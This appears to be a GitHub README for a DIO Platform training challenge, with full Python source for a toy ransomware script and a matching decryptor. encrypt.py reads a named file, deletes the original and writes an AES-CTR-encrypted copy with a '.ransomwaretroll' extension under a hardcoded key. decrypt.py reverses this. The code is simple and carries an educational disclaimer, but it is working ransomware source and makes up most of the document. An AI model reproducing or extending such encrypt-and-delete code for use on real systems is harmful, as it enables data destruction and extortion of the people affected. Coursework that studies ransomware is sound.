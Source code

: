 
DIO Platform Ransomware Challenge Repository
This repository is created to store the DIO Platform Ransomware Challenge, showcasing a simple implementation of ransomware encryption and decryption using Python.

Description
The challenge demonstrates a basic ransomware script written in Python using the pyaes library for encryption and decryption. It encrypts a specified file with a hardcoded key and saves the encrypted data in a new file with a '.ransomwaretroll' extension. The decryption script reverses this process, decrypting the encrypted file and restoring it to its original state.

Usage
Encryption
To encrypt a file, run the encrypt.py script with the following command:

bash
Copy code
python encrypt.py
Replace "teste.txt" with the name of the file you want to encrypt.

Decryption
To decrypt a file encrypted by the ransomware, run the decrypt.py script with the following command:

bash
Copy code
python decrypt.py
Replace "teste.txt.ransomwaretroll" with the name of the encrypted file you want to decrypt.

Code
Encryption Script (encrypt.py)
python
Copy code
import os
import pyaes

# Open the file to be encrypted
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the original file
os.remove(file_name)

# Encryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Encrypt the file
crypto_data = aes.encrypt(file_data)

# Save the encrypted file
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
Decryption Script (decrypt.py)
python
Copy code
import os
import pyaes

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the encrypted file
os.remove(file_name)

# Decryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypted_data = aes.decrypt(file_data)

# Save the decrypted file
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypted_data)
new_file.close()
Disclaimer
This code is for educational purposes only. Ransomware activities are illegal and unethical. Please use this knowledge responsibly and refrain from engaging in any malicious activities.
